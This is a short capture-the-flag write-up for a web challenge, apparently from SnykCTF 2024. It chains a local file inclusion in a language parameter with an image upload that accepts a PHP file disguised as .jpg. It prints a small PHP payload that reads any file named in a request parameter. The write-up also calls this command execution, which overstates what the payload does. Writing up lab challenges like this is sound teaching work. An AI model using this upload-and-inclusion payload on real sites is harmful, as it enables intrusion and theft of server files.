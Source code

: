# Challenge Statement 
![image](https://github.com/user-attachments/assets/e9f72d09-1e0c-4cb7-8a11-01be8532e699)

Attachment: [Who is JH.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Who%20is%20JH.zip)

# Solution
Exploring the webapp, we find `/upload.php` where we can upload image files only (JPG, PNG, GIF).
![image](https://github.com/user-attachments/assets/49e91284-1289-4518-a5a8-5ddc35909057)

We also find the `/conspiracy.php` which has two language filters which changes the URL to `?language=languages/french.php`. This indicates the possibility of a **LFI vulnerability**. <br />

Going through the source code, we find `log.php`, which shows `/logs/site_log.txt` where all the logs are being stored. Here we can see that the uploaded files are being renamed. <br />
![image](https://github.com/user-attachments/assets/979ab69b-e313-4349-b62e-9ecbd0fb5dd6)

Now we just have to upload a php file with the .jpg extension and using `/conspiracy.php?language=uploads/(.php.jpg file)` we can execute it. <br />
The php file I used it - 
```
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    echo file_get_contents($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```

Now, we can execute any command using the LFI vulnerability.
![image](https://github.com/user-attachments/assets/283efb94-662c-4f11-ba51-5d2e4d591e7f)

